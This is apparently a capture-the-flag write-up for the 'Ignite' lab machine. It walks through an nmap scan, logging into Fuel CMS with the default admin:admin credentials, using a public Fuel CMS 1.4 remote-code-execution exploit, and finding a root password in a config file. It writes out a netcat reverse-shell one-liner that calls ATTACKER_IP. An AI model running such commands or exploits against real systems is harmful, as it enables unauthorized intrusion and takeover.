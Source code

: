 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

### [ User.txt ]

Firstly, let's run a basic **Nmap** scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving **Apache httpd 2.4.18**. An interesting to note is that there is a disallowed entry **/fuel/** in the **robots.txt** file.

Navigating to HTTP website, we see a **Fuel CMS** webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that was left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is **admin:admin**! Furthermore, the admin page for Fuel can be found in **/fuel**:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to a administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on "**Click here for your site documentation**", we can see that the site is running **FUEL CMS 1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`. The command used is:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

![screenshot14](../assets/images/ignite/screenshot14.png)

Seems like we just have to change the `url` to the victim's IP address. Also, note that the code runs the connection through Burp Proxy, which we will remove as we are not using any proxy. Finally, to allow for compatibility with Python3, I had to make the following changes:

`raw_input()` to `input()`
`quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)
`print r.text[0:dup]` to `print(r.text[0:dup])`

The modified scripts looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit with a simple `whoami` command, we can see that it works:

![screenshot16](../assets/images/ignite/screenshot16.png)

Now we'll try setting up a **reverse shell**. Using **pentestmonkey's** [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

**user.txt can be found in www-data's home directory.**

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file in **/var/www/html/fuel/application/config/database.php** that had the **root** password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is: **mememe**

With the root password, we can log in as root and obtain root.txt located in /root.

---

When I was trying to log in using `su root`, an error **"must be run from a terminal"** kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account and obtain the root flag.

![screenshot23](../assets/images/ignite/screenshot23.png)
